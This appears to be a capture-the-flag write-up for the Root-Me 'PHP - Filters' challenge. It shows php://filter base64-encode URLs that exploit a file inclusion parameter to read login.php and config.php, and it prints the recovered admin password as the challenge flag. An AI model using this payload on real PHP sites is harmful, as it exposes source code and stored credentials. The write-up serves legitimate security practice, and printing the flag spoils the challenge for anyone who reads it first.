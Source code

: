 ```yaml
---
title: PHP - Filters
author: thanguyen165
date: 2023-01-02 07:00:00 +0700
categories: [Practice, rootme]
tags: [Web Exploitation, rootme]
---
```


* Points: 25
* Link: [https://www.root-me.org/en/Challenges/Web-Server/PHP-Filters](https://www.root-me.org/en/Challenges/Web-Server/PHP-Filters)

## Statement

> Retrieve the administrator password of this application.

## Solution

Click to login button, and look at the url
```
http://challenge01.root-me.org/web-serveur/ch12/?inc=login.php
```

So ```$inc = $_GET['inc]``` will query to a page. I guess [```file_get_contents($inc)```](https://www.php.net/manual/en/function.file-get-contents.php) or [```include($inc)```](https://www.php.net/manual/en/function.include.php) function must have been used.

Try [PHP Conversion Filters](https://www.php.net/manual/en/filters.convert.php) to get page's PHP code

```
http://challenge01.root-me.org/web-serveur/ch12/?inc=php://filter/convert.base64-encode/resource=login.php
```

It works!

We got a PHP code encoded by [base64](https://www.base64encoder.io/learn/). Decode it and there is it, PHP code
```php
<?php
include("config.php");

if ( isset($_POST["username"]) && isset($_POST["password"]) ){
    if ($_POST["username"]==$username && $_POST["password"]==$password){
      print("<h2>Welcome back !</h2>");
      print("To validate the challenge use this password<br/><br/>");
    } else {
      print("<h3>Error : no such user/password</h2><br />");
    }
} else {
?>

<form action="" method="post">
  Login&nbsp;<br/>
  <input type="text" name="username" /><br/><br/>
  Password&nbsp;<br/>
  <input type="password" name="password" /><br/><br/>
  <br/><br/>
  <input type="submit" value="connect" /><br/><br/>
</form>

<?php } ?>
```

The challenge said
```php
print("To validate the challenge use this password<br/><br/>");
```

So we need to find password.

There is another file, ```config.php```. ```password``` may be in that file. Now we will read it

```
http://challenge01.root-me.org/web-serveur/ch12/?inc=php://filter/convert.base64-encode/resource=config.php
```

```php
<?php
$username="admin";
$password="DAPt9D2mky0APAF";
```

The flag is
```
DAPt9D2mky0APAF
```
